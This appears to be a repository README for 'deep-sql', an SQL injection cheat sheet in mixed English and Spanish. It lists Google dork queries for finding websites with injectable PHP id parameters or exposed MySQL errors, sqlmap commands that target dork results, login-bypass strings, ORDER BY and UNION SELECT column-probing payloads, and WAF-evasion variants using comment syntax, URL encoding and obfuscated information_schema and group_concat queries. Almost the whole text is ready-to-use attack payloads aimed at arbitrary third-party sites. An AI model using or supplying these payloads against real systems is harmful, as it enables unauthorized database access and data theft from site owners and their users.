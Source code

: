# deep-sql

https://medium.com/nerd-for-tech/some-tips-for-sql-injections-764e1a254a29


inurl:”id=” & intext:”Warning: mysql_fetch_assoc()"
inurl:”id=” & intext:”Warning: mysql_fetch_array()"
inurl:”id=” & intext:”Warning: mysql_num_rows()"
inurl:”id=” & intext:”Warning: session_start()"
inurl:”id=” & intext:”Warning: getimagesize()"
inurl:”id=” & intext:”Warning: is_writable()"
inurl:”id=” & intext:”Warning: getimagesize()"
inurl:”id=” & intext:”Warning: Unknown()"
inurl:”id=” & intext:”Warning: session_start()"
inurl:”id=” & intext:”Warning: mysql_result()"
inurl:”id=” & intext:”Warning: pg_exec()"
inurl:”id=” & intext:”Warning: mysql_result()"
inurl:”id=” & intext:”Warning: mysql_num_rows()"
inurl:”id=” & intext:”Warning: mysql_query()"
inurl:”id=” & intext:”Warning: array_merge()"
inurl:”id=” & intext:”Warning: preg_match()"
inurl:”id=” & intext:”Warning: ilesize()"
inurl:”id=” & intext:”Warning: filesize()"
inurl:”id=” & intext:”Warning: filesize()"
inurl:”id=” & intext:”Warning: require()
inurl:aboutbook.php?id=
inurl:review.php?id=
inurl:loadpsb.php?id=
inurl:ages.php?id=
inurl:material.php?id=
inurl:clanek.php4?id=
inurl:announce.php?id=
inurl:chappies.php?id=
inurl:read.php?id=
inurl:viewapp.php?id=
inurl:viewphoto.php?id=
inurl:rub.php?idr=
inurl:galeri_info.php?l=
inurl:review.php?id=
inurl:iniziativa.php?in=
inurl:curriculum.php?id=
inurl:labels.php?id=
inurl:story.php?id=
inurl:look.php?ID=
inurl:newsone.php?id=
inurl:aboutbook.php?id=
inurl:material.php?id=
inurlpinions.php?id=
inurl:announce.php?id=
inurl:rub.php?idr=
inurl:galeri_info.php?l=
inurl:tekst.php?idt=
inurl:event.php?id=
inurlroduct-item.php?id=
inurl:sql.php?id=
inurl:news_view.php?id=
inurl:select_biblio.php?id=
inurl:humor.php?id=
inurl:aboutbook.php?id=
inurl:fiche_spectacle.php?id=
inurl:view_items.php?id= 
inurl:home.php?cat= 
inurl:item_book.php?CAT= 
inurl:www/index.php?page= 
inurl:schule/termine.php?view= 
inurl:goods_detail.php?data= 
inurl:storemanager/contents/item.php?page_code= 
inurl:view_items.php?id= 
inurl:customer/board.htm?mode= 
inurl:help/com_view.html?code= 
inurl:n_replyboard.php?typeboard= 
inurl:eng_board/view.php?T****= 
inurl:prev_results.php?prodID= 
inurl:bbs/view.php?no= 
inurl:gnu/?doc= 
inurl:zb/view.php?uid= 
inurl:global/product/product.php?gubun= 
inurl:m_view.php?ps_db= 
inurl:productlist.php?tid= 
inurl:product-list.php?id= 
inurl:onlinesales/product.php?product_id= 
inurl:garden_equipment/Fruit-Cage/product.php?pr= 
inurl:product.php?shopprodid= 
inurl:product_info.php?products_id= 
inurl:productlist.php?tid= 
inurl:showsub.php?id= 
inurl:productlist.php?fid= 
inurl:products.php?cat= 
inurl:products.php?cat= 
inurl:product-list.php?id= 
inurl:product.php?sku= 
inurl:store/product.php?productid= 
inurl:products.php?cat= 
inurl:productList.php?cat= 
inurl:product_detail.php?product_id= 
inurl:product.php?pid= 
inurl:view_items.php?id= 
inurl:more_details.php?id= 
inurl:county-facts/diary/vcsgen.php?id= 
inurl:idlechat/message.php?id= 
inurl:podcast/item.php?pid= 
inurl:products.php?act= 
inurl:details.php?prodId= 
inurl:socsci/events/full_details.php?id= 
inurl:ourblog.php?categoryid= 
inurl:mall/more.php?ProdID= 
inurl:archive/get.php?message_id= 
inurl:review/review_form.php?item_id= 
inurl:english/publicproducts.php?groupid= 
inurl:news_and_notices.php?news_id= 
inurl:rounds-detail.php?id=
Directly from SQLMAP
sqlmap.py -g "DOKR"
sqlmap.py -g "inurl:\".php?id=1\""
Discover a vulnerable parameter
To discover if a parameter is vulnerable we first have to test, in most cases just adding an ' at the end of the parameter value, this will show us some sql error, example:

1 = sitio.xx/ejemplo?id=1
2 = sitio.xx/ejemplo?id=1'
Podemos testear con los siguientes símbolos y sentencias :

'
''
`
``
,
"
""
/
//
\
\\
;
AND 1
AND 0
AND true
AND false
1-false
1-true
1*56
-2
'-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or ''-'
" or ""-"
" or true--
' or true--
admin' --
admin' #
admin'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
Detect number of vulnerable columns
ORDER BY 1-- 
 ORDER BY 2-- 
 ORDER BY 3-- 
 ORDER BY 4-- 
 ORDER BY 5-- 
 ORDER BY 6-- 
 ORDER BY 7-- 
 ORDER BY 8-- 
 ORDER BY 9-- 
 ORDER BY 10-- 
 
 ORDER BY 1# 
 ORDER BY 2# 
 ORDER BY 3# 
 ORDER BY 4# 
 ORDER BY 5# 
 ORDER BY 6# 
 ORDER BY 7# 
 ORDER BY 8# 
 ORDER BY 9# 
 ORDER BY 10#
Union Select
UNION SELECT 1
 UNION SELECT 1,2
 UNION SELECT 1,2,3
 UNION SELECT 1,2,3,4
 UNION SELECT 1,2,3,4,5
 UNION SELECT 1,2,3,4,5,6
 UNION SELECT 1,2,3,4,5,6,7
 UNION ALL SELECT 1
 UNION ALL SELECT 1,2
 UNION ALL SELECT 1,2,3
 UNION ALL SELECT 1,2,3,4
 UNION ALL SELECT 1,2,3,4,5
 UNION ALL SELECT 1,2,3,4,5,6
 UNION ALL SELECT 1,2,3,4,5,6,7
 
 UNION(SELECT 1)
 UNION(SELECT 1,2)
 UNION(SELECT 1,2,3)
 UNION(SELECT 1,2,3,4)
 UNION(SELECT 1,2,3,4,5)
 UNION(SELECT 1,2,3,4,5,6)
 UNION(SELECT 1,2,3,4,5,6,7)
 
 UNION ALL(SELECT 1)
 UNION ALL(SELECT 1,2)
 UNION ALL(SELECT 1,2,3)
 UNION ALL(SELECT 1,2,3,4)
 UNION ALL(SELECT 1,2,3,4,5)
 UNION ALL(SELECT 1,2,3,4,5,6)
 UNION ALL(SELECT 1,2,3,4,5,6,7)
 
 AND 1 UNION SELECT 1
 AND 1 UNION SELECT 1,2
 AND 1 UNION SELECT 1,2,3
 AND 1 UNION SELECT 1,2,3,4
 AND 1 UNION SELECT 1,2,3,4,5
 AND 1 UNION SELECT 1,2,3,4,5,6
 AND 1 UNION SELECT 1,2,3,4,5,6,7
UNION DISTINCTROW SELECT 1
 UNION DISTINCTROW SELECT 1,2
 UNION DISTINCTROW SELECT 1,2,3
 UNION DISTINCTROW SELECT 1,2,3,4
 UNION DISTINCTROW SELECT 1,2,3,4,5
 UNION DISTINCTROW SELECT 1,2,3,4,5,6
bypass usando comentarios
/*!UNION*/ /*!SELECT*/ 1
 /*!UNION*/ /*!SELECT*/ 1,2
 /*!UNION*/ /*!SELECT*/ 1,2,3
 /*!UNION*/ /*!SELECT*/ 1,2,3,4
 /*!UNION*/ /*!SELECT*/ 1,2,3,4,5
 /*!UNION*/ /*!SELECT*/ 1,2,3,4,5,6
 /*!UNION*/ /*!SELECT*/ 1,2,3,4,5,6,7
 
 /*!12345UNION*/ /*!12345SELECT*/ 1
 /*!12345UNION*/ /*!12345SELECT*/ 1,2
 /*!12345UNION*/ /*!12345SELECT*/ 1,2,3
 /*!12345UNION*/ /*!12345SELECT*/ 1,2,3,4
 /*!12345UNION*/ /*!12345SELECT*/ 1,2,3,4,5
 /*!12345UNION*/ /*!12345SELECT*/ 1,2,3,4,5,6
 /*!12345UNION*/ /*!12345SELECT*/ 1,2,3,4,5,6,7
 
 /*!12345UNION*/(/*!12345SELECT*/ 1)
 /*!12345UNION*/(/*!12345SELECT*/ 1,2)
 /*!12345UNION*/(/*!12345SELECT*/ 1,2,3)
 /*!12345UNION*/(/*!12345SELECT*/ 1,2,3,4)
 /*!12345UNION*/(/*!12345SELECT*/ 1,2,3,4,5)
 /*!12345UNION*/(/*!12345SELECT*/ 1,2,3,4,5,6)
 /*!12345UNION*/(/*!12345SELECT*/ 1,2,3,4,5,6,7)
bypass usando comentarios + url encoding
/*!%55nion*/%20/*!%53elect*/1
 /*!%55nion*/%20/*!%53elect*/%201,2
 /*!%55nion*/%20/*!%53elect*/%201,2,3
 /*!%55nion*/%20/*!%53elect*/%201,2,3,4
 /*!%55nion*/%20/*!%53elect*/%201,2,3,4,5
 /*!%55nion*/%20/*!%53elect*/%201,2,3,4,5,6
 /*!%55nion*/%20/*!%53elect*/%201,2,3,4,5,6,7
 
 /*!12345%55nion*/ /*!12345%53elect*/ 1
 /*!12345%55nion*/ /*!12345%53elect*/ 1,2
 /*!1234%55nion*/ /*!12345%53elect*/ 1,2,3
 /*!12345%55nion*/ /*!12345%53elect*/ 1,2,3,4
 /*!12345%55nion*/ /*!12345%53elect*/ 1,2,3,4,5
 /*!12345%55nion*/ /*!12345%53elect*/ 1,2,3,4,5,6
 /*!12345%55nion*/ /*!12345%53elect*/ 1,2,3,4,5,6,7
 
 /*!12345%55nion*/(/*!12345%53elect*/ 1)
 /*!12345%55nion*/(/*!12345%53elect*/ 1,2)
 /*!12345%55nion*/(/*!12345%53elect*/ 1,2,3)
 /*!12345%55nion*/(/*!12345%53elect*/ 1,2,3,4)
 /*!12345%55nion*/(/*!12345%53elect*/ 1,2,3,4,5)
 /*!12345%55nion*/(/*!12345%53elect*/ 1,2,3,4,5,6)
 /*!12345%55nion*/(/*!12345%53elect*/ 1,2,3,4,5,6,7)
Information_schema.tables bypass
/*!froM*/ /*!InfORmaTion_scHema*/.tAblES /*!WhERe*/ /*!TaBle_ScHEmA*/=schEMA()-- -
/*!froM*/ /*!InfORmaTion_scHema*/.tAblES /*!WhERe*/ /*!TaBle_ScHEmA*/ like schEMA()-- -
/*!froM*/ /*!InfORmaTion_scHema*/.tAblES /*!WhERe*/ /*!TaBle_ScHEmA*/=database()-- -
/*!froM*/ /*!InfORmaTion_scHema*/.tAblES /*!WhERe*/ /*!TaBle_ScHEmA*/ like database()-- -
/*!FrOm*/+%69nformation_schema./**/columns+/*!50000Where*/+/*!%54able_name*/=hex table
/*!FrOm*/+information_schema./**/columns+/*!12345Where*/+/*!%54able_name*/ like hex table
Concat
CoNcAt()
concat() 
CON%08CAT()
CoNcAt()
%0AcOnCat()
/**//*!12345cOnCat*/
/*!50000cOnCat*/(/*!*/)
unhex(hex(concat(table_name)))
unhex(hex(/*!12345concat*/(table_name)))
unhex(hex(/*!50000concat*/(table_name)))
group_concat
/*!group_concat*/()
gRoUp_cOnCAt()
group_concat(/*!*/)
group_concat(/*!12345table_name*/)
group_concat(/*!50000table_name*/)
/*!group_concat*/(/*!12345table_name*/)
/*!group_concat*/(/*!50000table_name*/)
/*!12345group_concat*/(/*!12345table_name*/)
/*!50000group_concat*/(/*!50000table_name*/)
/*!GrOuP_ConCaT*/()
/*!12345GroUP_ConCat*/()
/*!50000gRouP_cOnCaT*/()
/*!50000Gr%6fuP_c%6fnCAT*/()
